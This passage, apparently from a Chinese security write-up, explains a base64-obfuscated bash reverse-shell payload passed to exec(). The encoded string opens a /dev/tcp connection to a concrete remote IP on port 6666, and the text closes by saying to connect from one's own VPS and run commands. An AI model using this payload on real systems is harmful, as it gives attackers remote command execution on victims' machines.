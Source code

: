 ```plain
```

重点payload点在这里，通过其反弹shell，达到任意命令执行

```plain
exec(\"bash -c {echo,YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTguODkuMTAxLjU2LzY2NjYgMDwmMQ==}|{base64,-d}|{bash,-i}\")
```

这段代码是一个使用bash反弹shell的命令，它使用了base64编码来隐藏命令内容。

-   `bash -c`，你可以在命令行中指定一个命令或命令字符串，并要求bash解释器执行它。
    
-   `YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTguODkuMTAxLjU2LzY2NjYgMDwmMQ==`：
    
    ```plain
    bash -i &> /dev/tcp/XXX.XX.XX.XX/6666 0<&1
    ```
    
    -   `bash -i`：这是执行一个交互式的Bash Shell的命令。
    -   `&>`：这是I/O重定向的语法，将标准输出和标准错误输出都重定向到后面指定的位置。
    -   `/dev/tcp/XXX.XX.XX.XX/6666`：这是一个特殊的文件路径，它表示网络套接字。具体来说，`/dev/tcp`是Linux中的一个虚拟文件系统，可以用来进行网络通信。
    -   `0<&1`：这是另一个I/O重定向，将标准输入（文件描述符0）指向标准输出（文件描述符1），这样就可以实现输入和输出的重定向。
    
    综合起来，这段代码的作用是创建一个反向连接，将Bash Shell与远程主机上的某个端口进行连接。它将标准输入、标准输出和标准错误输出重定向到网络套接字，从而实现与远程主机的交互式Shell会话。
    
-   `base64,-d`：这是一个base64解码器的命令，它会将base64编码的字符串转换回原始内容。
    
-   `bash,-i`：这是执行一个交互式的bash shell的命令。
    

综合起来，这段代码的作用是将经过base64编码的命令进行解码，并在本地机器上执行一个交互式的bash shell。也就是说，它试图建立一个反向连接，使得攻击者可以通过该连接与目标机器进行交互并执行命令。

接着用自己的VPS连接，命令执行即可

[![](assets/1700442594-3943ea7ba30598d0d4c8ce7055d52282.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155708-12910f30-85e8-1.png)
